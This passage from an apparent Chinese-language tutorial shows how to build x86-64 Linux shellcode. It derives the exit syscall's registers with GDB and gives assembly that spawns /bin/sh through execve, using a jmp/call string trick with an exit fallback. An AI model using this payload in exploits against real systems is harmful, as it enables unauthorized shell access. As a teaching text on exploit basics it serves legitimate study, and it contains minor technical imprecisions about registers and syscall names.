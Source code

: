 　　不得不说，分析`exit`的汇编指令比分析`execve`要难得多，因为这里面涉及到了3层调用，尤其是`__run_exit_handlers`，看着就头痛。更悲剧的是，由于`syscall`前面有近百条汇编指令，系统调用的参数可能在之前某一条指令中就已经存入寄存器了，如果要分析出该系统调用具体有哪些必需参数，貌似我们只能把每一条指令都弄明白。不过程序员可不是苦力，怎么能干这种吃力不讨好的事呢？肯定有投机取巧的方法！
　　不同于32位机的堆栈传递参数，对于64位机，我们知道，函数调用的参数是通过寄存器传递的，而常用的寄存器就那么几个，分别是`%rdi`、`%rsi`、`%rdx`、`%rax`，因此，我们完全可以在执行`syscall`指令前把这几个寄存器的值全部抓下来，不管是不是真正的参数，总之我在使用的时候就按这个进行赋值，这样总能执行成功吧！话不多说，立马实践，使用GDB跟踪程序到`syscall`指令，然后查看四个参数寄存器的值：
　　![Selection_094.png-128.3kB][2]
　　这样，我们也就获得了调用`exit`的几个必要条件：

　　1. 将`0xe7`存入`%rax`(实际上是`%eax`)中
　　2. 将`0x0`存入`%rdx`中
　　3. 将`0x0`存入`%rdi`中
　　4. 将`0x3c`分别存入`%rsi`中
　　5. 系统调用，syscall指令

　　根据以上需求，我们可以设计出能够产生`exit`系统调用的代码段：

``` language-bash
# exit.s
main:
    movl $0xe7, %eax # 对应第1点需求
    movq $0x0, %rdx # 对应第2点需求
    movq $0x0, %rdi # 对应第3点需求
    movq $0x3c, %rsi # 对应第4点需求
    syscall # 对应第5点需求

    .global main
    .type main, @function
```
　　使用gcc将这段代码汇编成可执行文件，然后使用GDB跟踪调试，发现执行完`syscall`指令后，该进程正常退出，这表明我们设计的代码能够正常产生`exit`系统调用。
``` language-bash
(gdb) ni
[Inferior 1 (process 764) exited normally]
warning: Error removing breakpoint -9
(gdb)
```

　　不过，经过测试(其实就是依次修改各个参数寄存器的值，查看程序能否正常退出)，我们会发现，列出的5点需求中，只有第1、3、5点需求是必要的，其余两点需求可以忽略，因此，我们的代码可以继续精简两行，直接把`movq $0x0, %rdx`和`movq $0x3c, %rsi`删掉即可。
　　至此，我们可以将两串代码拼接在一起：
``` language-bash
# shell_2.s
main:
    jmp bbb
aaa:
    movq $0x0, %rax
    movq %rax, 0x8(%rsp)
    movq 0x0(%rsp), %rdi
    lea 0x0(%rsp), %rsi
    movq $0x0, %rdx
    movl $0x3b, %eax
    syscall
    movl $0xe7, %eax
    movq $0x0, %rdi
    syscall
bbb:
    callq aaa
    .string "/bin/sh"

    .global main
    .type main, @function
```
　　这个程序不仅能够产生`execve`系统调用，执行shell，还能在`execve`系统调用失败时正常退出，以免发生错误。理论上来说，这段代码已经基本满足我们对**shell code**的功能需求，然而，它却无法使用。为了说明这一点，我们可以查看一下这些指令对应的机器码：


  [1]: http://static.zybuluo.com/hac/ievx030z55g087jjjzdek5dy/Selection_093.png
  [2]: http://static.zybuluo.com/hac/o2ovzv62jrr95vlzrdxzug1x/Selection_094.png
  [3]: http://static.zybuluo.com/hac/73mrfpgsumtjebroggovldju/Selection_095.png